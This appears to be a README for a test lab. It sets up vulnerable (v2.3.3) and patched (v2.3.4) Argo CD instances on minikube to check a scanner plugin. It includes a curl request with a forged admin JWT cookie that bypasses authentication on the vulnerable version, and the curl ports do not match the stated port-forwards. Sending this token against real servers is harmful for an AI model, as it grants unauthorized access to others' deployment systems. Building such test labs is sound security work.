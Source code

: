 # setup requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# setup vulnerable instance (v2.3.3)

```bash
kubectl create namespace argocd
kubectl apply -n argocd -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.3/manifests/install.yaml
kubectl edit -n argocd cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocd cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

set admin role as default to be able to create an application:
`kubectl edit -n argocd cm argocd-rbac-cm -o yaml`

append the following:
```yaml
data:
  policy.default: role:admin
```

give access to the server from 127.0.0.1:8082 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocd 8082:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8080/api/v1/certificates'
```
the response is like the following:
```
HTTP/1.1 200 OK
{"metadata":{},"items":[{"serverName":"bitbucket.org","certType":"ssh",....
```

# setup safe instance (v2.3.4)

```bash
kubectl create namespace argocdsafe
kubectl apply -n argocdsafe -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.4/manifests/install.yaml
kubectl edit -n argocdsafe cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocdsafe cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8081 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocdsafe 8081:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8080/api/v1/certificates'
```

the response is like the following:
```
HTTP/1.1 200 OK
{"error":"permission denied: certificates, get, ","code":7,"message":"permission denied: certificates, get, "}
```
